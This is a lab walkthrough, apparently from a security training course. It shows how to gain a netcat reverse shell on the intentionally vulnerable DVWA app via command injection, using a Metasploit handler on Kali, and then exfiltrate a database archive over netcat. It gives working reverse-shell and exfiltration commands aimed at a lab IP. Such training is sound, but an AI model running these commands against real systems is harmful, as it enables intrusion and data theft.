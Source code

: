 Reverse Shell
=============

A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the attacker’s host. Attackers who successfully exploit a remote command execution vulnerability can use a reverse shell to obtain an interactive shell session on the target machine and continue their attack. Reverse shells can also work across a NAT or firewall.

#. Running a Command-and-Control Server in Kali
     In the Kali Web Shell run the command:

     .. code-block::

       msfconsole

     .. image:: ../images/Attacks/Picture12.png
          :width: 450
#. Running a ‘reverse-shell’ module on Kali
     In the Kali Web Shell run the command:

     .. code-block::

       use exploit/multi/handler
       set PAYLOAD linux/x64/shell/reverse_tcp
       set LHOST 10.1.50.8
       run
      
     .. image:: ../images/Attacks/Picture13.png
          :width: 550
#. Run reverse shell command from DVWA
     In the XRDP Web Browser for DVWA run the command:

     .. code-block::

       | nc 10.1.50.8 4444 -e /bin/sh &

     .. image:: ../images/Attacks/Picture14.png
          :width: 850
#. Execute shell commands from Kali
     In the Kali Web Shell **Press Enter 1x prior to running commands**
  
     .. code-block::

       pwd
       ls -AlFh

     .. image:: ../images/Attacks/Picture15.png
          :width: 500
#. Open a New Web Shell in Kali

     .. image:: ../images/Attacks/Picture16.png
          :width: 600
#. Setup Data Exfiltration from Kali (2nd Web Shell [New Shell Window])

     .. code-block::

       cd /home/kali
       ls
       rm Sample-DB.zip
       nc -l -p 8888 > Sample-DB.zip

     .. image:: ../images/Attacks/Picture17.png
          :width: 850
#. Run Data Exfiltration command from Kali (1st Web Shell [Reverse Shell Window])

     .. code-block::

       nc -w 3 10.1.50.8 8888 < Sample-DB.zip

     .. image:: ../images/Attacks/Picture18.png
          :width: 600
#. Check Exfiltrated file on Kali from the compromised server (2nd Web Shell [New Shell Window])
     If file has size (~93MB) then the data exfiltration was successful

     .. code-block::

       ls -AlFh |grep -I Sample

     .. image:: ../images/Attacks/Picture19.png
          :width: 500